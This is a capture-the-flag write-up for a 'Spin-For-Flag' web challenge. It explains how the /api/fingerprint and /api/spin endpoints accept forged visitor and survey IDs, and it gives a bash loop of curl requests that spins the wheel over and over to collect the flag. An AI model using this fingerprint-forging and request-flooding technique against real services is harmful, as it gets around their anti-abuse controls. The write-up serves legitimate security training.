


# SIFI - Spin-For-Flag 🎡

Author: `yrjarv`

---

"Maybe the rules are more like guidelines?"

## Recon/initial assessment

From the `app/main.py` file, it seems like there is an extensive amount of
fingerprinting going on - but the fingerprinting is handled through the
`/api/fingerprint` endpoint. This can be abused. The survey responses are also
not stored in any way.

It seems like it should be possible to send a `POST` request to the
`/api/fingerprint` endpoint with a "random" `survey_uuid`, `requestId` and
`visitorId`. If I then send a `POST` request to `/api/spin` with the same data,
I should be able to spin the wheel.

If this is done enough times, it should be possible to "win" the flag.

Since the `requestId` is never handled or validated, I can also probably send in
the same `requestId` in all my requests - which is always nice.

The only requirement for `suvey_uuid` seems to be that it is a valid UUID, and
the only requirement for `visitorId` seems to be that it is `20` characters
long.

Additionally, the `fingerprint` endpoint requires a `ConfidencePayload` in the
request data. This can easily be extracted from the network traffic to
`/api/fingerprint` when spinning the wheel as a "normal" user on the website.

## Exploitation

I created the following script to generate sequential `survey_uuid`s and
`visitorId`s, and send requests to first `/api/fingerprint` and then
`/api/spin`:

```bash
#!/usr/bin/bash

i=1000 # Constantly incrementing 4-digit ending of visitorId and survey_uuid
url="https://sifi-7eb3b191-spin4flag.ept.gg"

while(true); do # Because I have to watch for flags anyway, so I'll ^C manually

    # Build the payload
    payload="""{
        \"visitorId\":\"2025000000000000$i\",
        \"requestId\":\"0\",
        \"survey_uuid\":\"20250000-0000-0000-000000000000$i\",
        \"confidence\":{\"score\":0.995}
    }"""

    # Add the fingerprint
    curl -X POST "$url/api/fingerprint"\
        -H "Content-Type: application/json"\
        --data-raw "$payload"

    # Spin the wheel
    curl -s -X POST "$url/api/spin"\
        -H "Content-Type: application/json"\
        --data-raw "$payload" | jq . # Piping to jq makes it look prettier

    i=$((i + 1))
done
```

I manually watched out for parts of the flag, and pieced them together, to get
the full flag:





The looking for flag parts  could of course have been done automatically, but I
chose to do it manually to save time developing the bash script - I still had to
watch it closely to see if there was some mistake I had made, and therefore I
decided to do that part manually.

The flag is: `EPT{sp1n_th3_wh33l_0f_vuln3r4b1l1ty`
